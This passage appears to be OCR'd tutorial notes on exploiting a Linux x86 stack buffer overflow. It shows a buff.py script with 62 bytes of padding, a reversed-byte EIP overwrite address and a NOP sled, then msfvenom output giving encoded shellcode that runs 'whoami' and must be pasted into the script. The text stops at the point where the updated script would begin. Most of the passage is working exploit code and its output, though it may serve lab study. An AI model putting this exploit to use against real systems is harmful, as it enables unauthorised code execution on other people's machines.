 ``` 
0xf7f6ba53
0xf7f6bcc3
0xf7f6be13
0xf7f6bebb
0xf7f6c93b
0xf7f6cd8b
0xf7f6d013
0xf7f6d53b


##now update your buff.py script to change your payload. updated script below:

buff.py
`
buff="A" * 62 #feeding the script 62 A's
'''
0xf7 f6 96 3b

#now flip this around to get the reverse byte order, like this:

0x3b 96 f6 f7

#memory sections we chose - you can pick any of these from your info proc map output
0xf7f6963b
0xf7f6970b
0xf7f69733
0xf7f697bb
0xf7f69853
'''
#eip="B" * 4 #placeholder EIP sanity check - 4 bytes in sizes
eip = '\x3b\x96\xf6\xf7'
nop='\x90' * 10
print(buff + eip + nop)
`



linops >> msfvenom -p linux/x86/exec cmd="whoami" -b '\x00' -f python		#specifies what command to run, what payload to use, the bad characters to exclude (0x00 is  anull character, which we absolutley need to get rid of) and in what format (python in this case)

[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 69 (iteration=0)
x86/shikata_ga_nai chosen with final size 69
Payload size: 69 bytes
Final size of python file: 353 bytes
buf =  b""
buf += b"\xbb\x4f\xe8\x5e\x4f\xda\xd1\xd9\x74\x24\xf4\x5f\x2b"
buf += b"\xc9\xb1\x0b\x83\xef\xfc\x31\x5f\x10\x03\x5f\x10\xad"
buf += b"\x1d\x34\x44\x69\x47\x9b\x3c\xe1\x5a\x7f\x48\x16\xcc"
buf += b"\x50\x39\xb0\x0d\xc7\x92\x22\x67\x79\x64\x41\x25\x6d"
buf += b"\x71\x85\xca\x6d\x09\xed\xa5\x0c\x98\x84\x39\x98\x31"
buf += b"\xdf\xdb\xeb\x36"


## now update buff.py again... lol
## copy and paste the entire 'buf=' section into your script. all of these buf+= things are shellcode corresponding to the command you are runnig. new script:

`
```
